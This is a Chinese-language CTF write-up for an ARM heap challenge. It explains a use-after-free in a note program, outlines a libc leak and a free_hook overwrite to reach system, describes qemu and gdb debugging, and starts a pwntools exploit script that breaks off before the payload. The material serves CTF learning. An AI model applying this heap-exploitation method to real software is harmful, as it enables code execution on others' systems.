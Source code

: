 ### arm

#### 前言

题目很简单，主要记录一下arm pwn的一般做题方式。

#### 程序分析

可以add、del、print、edit，有UAF，是最简单的题了，题目本身就不再多说了，在`name`构造好一个fake chunk，malloc一个0xa0的块释放泄露libc，UAF到`name`进而可以Edit到notelist写入free_hook，再Edit即可改成system。

#### 调试环境搭建

查到了两篇比较详细的介绍，分别是[arm32](https://xz.aliyun.com/t/3744)以及[arm64](https://xz.aliyun.com/t/3154)，可以用`qemu-arm -L /usr/arm-linux-gnueabi ./pwn`启动或者`socat tcp-l:10002,fork exec:"qemu-arm -g 1234 -L /usr/arm-linux-gnueabi ./pwn",reuseaddr`用socat启动gdb attach上去。后者我调试发现有gdb server无法启动的问题，所以作罢了。  
最后的解决方法是在exp.py里用` p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./pwn"])`启动，之后开另一个终端用`gdb -q ./pwn`再查看这个进程的pid，在gdb内部`attach [pid]`进行调试，因为我们调试的是`qemu-arm`所以地址都是外层的，内层地址看不到。  
开始泄露libc的时候我是启动时候加了`-g`参数直接在gdb里删除了一个大的块查看偏移，之后再用`exp.py`里调试。

#### exp.py

```py
from pwn import *


context.log_level = 'debug'


def add(p, size, content):
    p.sendlineafter('your choice: ', str(1))
    p.sendlineafter('Note size :', str(size))
    p.sendafter("Content :",content)


def delete(p, idx):
    p.sendlineafter('your choice: ', str(2))
    p.sendlineafter('Index :', str(idx))


def show(p, idx):
    p.sendlineafter('your choice: ', str(3))
    p.sendlineafter('Index :', str(idx))

def edit(p, idx, content):
    p.sendlineafter('your choice: ', str(5))
    p.sendlineafter('Index :', str(idx))
    p.sendafter("You content:",content)

debug = 1

def pwn():
    context.terminal = ['tmux', 'split', '-h']
    context.binary = './pwn'
    elf = ELF('./pwn')
    if not debug:
        p = remote("172.16.9.45", 10623)
        libc = ELF('./libc.so.6')
    elif debug == 1:
        p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./pwn"])
        libc = ELF('/usr/arm-linux-gnueabihf/lib/libc.so.6')
    elif debug == 2:
        p = remote("127.0.0.1",12345)
        #pause()
    else:
```